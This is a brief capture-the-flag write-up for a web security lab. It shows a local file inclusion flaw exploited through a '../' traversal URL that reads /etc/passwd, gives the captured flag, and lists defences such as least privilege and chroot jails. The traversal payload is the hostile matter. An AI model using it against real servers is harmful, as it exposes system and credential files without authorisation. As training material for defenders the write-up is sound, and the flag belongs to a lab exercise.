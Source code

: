 
[Local File Inclusion Vulnerability](https://youtu.be/AALacSN2SRw?list=PLqM63j87R5p77_vK-eL9eFbhz6BJ1Av7r)

u get message indications with each backtrack (../)

`http://IP/index.php?page=../../../../../../../` ==> pops "You can DO it !!!  :]"


`http://IP/index.php?page=../../../../../../../etc/passwd`

Congratulaton!! The flag is : `b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0`


## # Prevention

1. Hosting documents on a separate file-server or file partition, or in cloud storage, is a good idea too. This will allow you to prevent mixing public documents and more sensitive material.

2. It is a good practice to run your server processes with only the permissions that they require to function . This can help limit the impact of vulnerabilities as a second line of defense.
Make sure the server process can only access the directories it needs. Consider running the process in a - **chroot jail** - if you are running on Unix. This will mitigate the risks if a directory traversal vulnerability is discovered.